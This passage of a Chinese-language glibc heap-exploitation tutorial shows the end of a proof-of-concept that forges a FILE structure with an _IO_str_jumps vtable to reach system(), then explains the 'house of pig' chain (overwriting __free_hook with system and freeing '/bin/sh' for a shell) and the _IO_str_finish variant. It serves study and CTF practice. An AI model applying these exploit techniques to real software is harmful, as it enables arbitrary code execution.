 ```c
    top[21] = 2;
    top[22] = 3;
    top[24] = -1;
    top[27] = (size_t)stdin - 0x3868-0x18; // _IO_str_jumps地址
    top[28] = (size_t) &winner;
  	
    /* Finally, trigger the whole chain by calling malloc */
    malloc(10);
    return 0;
}
int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```

同时 house of pig 中的利用也是比较典型的例子，注意到满足

```cpp
pos = fp->_IO_write_ptr - fp->_IO_write_base;
  if (pos >= (size_t) (_IO_blen (fp) + flush_only))
```

的时候，会先后执行

```cpp
size_t old_blen = _IO_blen (fp);
// #define _IO_blen (fp) ((fp)->_IO_buf_end - (fp)->_IO_buf_base)
new_buf = malloc (new_size);
memcpy (new_buf, old_buf, old_blen);
free (old_buf);
```

三个操作，伪造 _IO_FILE 并劫持 vtable 为 _IO_str_jumps 通过一个 large bin attack 就可以轻松实现，并且我们上面三个语句中的 new_size，old_buf 和 old_blen 是我们可控的，这个函数就可以实现以下三步

1. 调用 malloc，实现从 tcache 中分配 chunk，在这里就可以把我们之前放入的 __free_hook fake chunk 申请出来
2. 将一段可控长度可控内容的内存段拷贝置 malloc 得来的 chunk 中（可以修改 __free_hook 为 system）
3. 调用 free，且参数为内存段起始地址（"/bin/sh\x00"，getshell）

也就是只要我们构造得当，执行该函数即可 getshell。


### _IO_str_jumps -> finish

原理与上面的 _IO_str_jumps -> overflow 类似

```c
void
_IO_str_finish (_IO_FILE *fp, int dummy)
{
  if (fp->_IO_buf_base && !(fp->_flags & _IO_USER_BUF))
    (((_IO_strfile *) fp)->_s._free_buffer) (fp->_IO_buf_base);  //[fp+0xe8]
  fp->_IO_buf_base = NULL;

  _IO_default_finish (fp, 0);
}
```
